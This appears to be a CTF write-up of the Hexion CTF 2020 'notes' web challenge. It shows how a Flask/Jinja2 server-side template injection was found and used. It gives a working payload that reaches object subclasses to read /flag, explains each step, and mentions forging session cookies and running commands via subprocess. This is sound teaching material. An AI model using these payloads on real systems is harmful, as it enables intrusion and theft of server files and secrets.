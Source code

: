 # Notes

This task was part of the 'Web' category at the 2020 Hexion CTF (during 11-13 April 2020).
It was solved [The Maccabees](https://ctftime.org/team/60231) team.



## The challenge

The challenge description contained only a link to a website:

```
http://challenges1.hexionteam.com:2001
```

When viewing the website in the browser - we get a simple "notes" application, where you can:

* Fill the textbox and hit the "Create" button, which creates a new note.
* View all the notes created so far.
* Hit the "Reset" button, removing all existing notes.

Example for how that looks in the browser:

![notes-web-empty](notes-web-empty.png) **--->** ![notes-web-empty](notes-web-filled.png)

In addition, in the received HTML page, there is a comment:

```html
<!-- DEPRECATED <script>
    $.getJSON("/notes", (res) => {
        res.forEach(o => {
            notesList.append(document.createTextNode(o));
        });
    });
</script> -->
```

This hints a hidden interface hidden under the "/notes" URI. And indeed, browsing to this interface shows us in a list (in a Python/JS formatting) of the current notes.
For example, browsing there for the current notes sends us the response:

```
['dsadsadsa', 'la la la']
```



Our first attempts were to inject some delimiter characters in order to try to fiddle with this formatting - none worked (trying to inset `, ", ', --, <, >, etc.).

 Another thing we discovered - if we remove the 'text=' parmater in the POST request that adds another note, and then browse to "/notes", it seems like we fill a new entry in the list with the `None` value:

```
[None]
```

This hints us that this is a python implementation (also obvious by the server being gunicorn - variation of Flask).



## The solution

After playing with it a lot, we figured out the solution is that this implementation is vulnerable to SSTI - **Server-Side Template Injection**, in Flask.

This class of vulnerabilities relies on the fact that Flask (among other web engines) renders "templates" of payloads with data from the environment (in this case - python). If this template, before rendering, is constructed using unsanitized user-input - we can modify the template in order to gain code execution on the server.

The easy way to check if implementation is vulnerable to SSTI is to input the data `{{7 * 7}}`, and see if it renders as `49` in some manner.

And indeed, inserting a note with these contents, and then browsing to `/notes`, we receive the response `['49']`.

From here, the main challenge is to write a python payload that will leak the flag, given the constraints. The main problem is that we can't `import` anything, and can't use builtins from the python environment.

Some good resources about SSTI:

* [SSTI in Flask/Jinja2](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) - good article explaining the bugclass + a walkthrough exploitation (which is very similar to our final exploit).
* [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) - a nice cheatsheet for SSTI exploitation methods.

Notice that in both cases, the exact exploit details won't work as-is here - because difference in the environment, and differences between python2 and python3 (most example online are about python2, but we use python3).

Given this knowledge, constructing the final solution is easy. We will try to construct a solution that read a file from the server filesystem and shows us its content (this is under the assumption that the flag is in some predictable path, such as `/flag`). 

notes-web-emptyThe final solution looks like this - we can just paste the following string and add it as a note:

```
{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag").get_data("/flag") }}
```

Afterwards, we get the following result on `/notes`: 

```
['b'hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}\n'\r\n\r\n']
```

Which means the flag is `hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}`!

Simple explanation of the exploit, and the meaning of each part (each part can be evaluated separately for inspection):

1. `{{ config }}` - this is an object which Flask export to templates, containing the current instance configuration. This can also be useful in order to leak flask secret (in some CTF challenges - the flag is just saved as a configuration variable; also, the `SECRET_KEY` can be used in order to decrypt and forge Flask session cookies).
2. `{{ config.items() }}` - because `config` is a key-value dict, we just take the values.
3. `{{ config.items()[4] }}` - just take some random item from the configuration (which derives from `object`).
4. `{{ config.items()[4].__class__ }}` - the class of the object (in our case - `<class 'jinja2.runtime.Undefined'>`).
5. `{{ config.items()[4].__class__.__mro__ }}` - the MRO (method resolution object) of the class. This is basically an iterator of all superclasses of the class.
6. `{{ config.items()[4].__class__.__mro__[1] }}` - we just took the last class in the MRO - this is just `<class 'object'>`.
7. `{{ config.items()[4].__class__.__mro__[1].__subclasses__() }}` - these are all the available subclasses of the class `object` (which obviously should be all available classes).
8. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79] }}` - this is the class `<class '_frozen_importlib_external.FileLoader'>'`. We will abuse it in order to read the content of a file on the filesystem.
9. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag")` - this is a construction of an instance of the `FileLoader` object (the two parameters doesn't really seem to matter - but them as the flag path just in case).
10. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag").get_data("/flag") }}` - this calls the `get_data` method of the `FileLoader` object we created, in order to read the data from the flag file (located in `/flag` on the server machine).

(Another option we had was to use `subprocess.Popen` or something similar in order to run arbitrary code on the machine - but it was not needed here, as reading a file was enough in order to get the flag).

